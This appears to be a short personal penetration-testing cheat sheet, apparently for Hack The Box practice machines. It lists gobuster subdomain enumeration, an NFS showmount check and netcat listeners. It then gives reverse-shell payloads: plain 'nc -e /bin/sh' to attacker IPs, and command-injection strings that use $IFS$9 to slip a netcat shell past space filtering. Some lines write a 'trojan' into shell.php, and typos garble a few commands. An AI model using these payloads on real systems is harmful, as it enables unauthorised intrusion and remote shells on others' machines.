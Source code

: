 

### find subdomain (gobuster's vhost mode)

gobuster vhost -v -w <wordlist.txt> -u <url> -o <output_file.txt>

;;;;;;Example: 

gobuster vhost -v -w /home/username/SecLists/Discover/DNS/subdomains-top1million-5000.txt -u http://workder.htb -o vhosts.txt

### find subdomain in a specific domain

gobuser dns -d workers.htb -w /home/username/SecLists/Discovery/DNS/subdomains/-top1million-5000.txt -i



### check some ports

showmount -e 10.0.0.32

;;;;;;;;;;;;;;;;;;;;;you may get /mnt/nfs *









# Listen to reverse shell

nc -lvnp 4444

nc -lvnp 443 (node.js shell)

to connect to the server and execute command

### The shell

$;nc$IFS$9192.168.254.128$IFS$94444$IFS$9-e$IFS$9/bin/sh

nc -e /bin/sh 192.168.0.123 1234





$;ls$IFS${9}key.ph?;nc$IFS${9}192.168.254.128$IFS${9}4444$IFS${9}-e$IFS${9}/bin/sh

$;echo\$IFS$9"trojan">shell.php

$;echo$IFS$9"trojan">shell.php

# =====================

# =====================
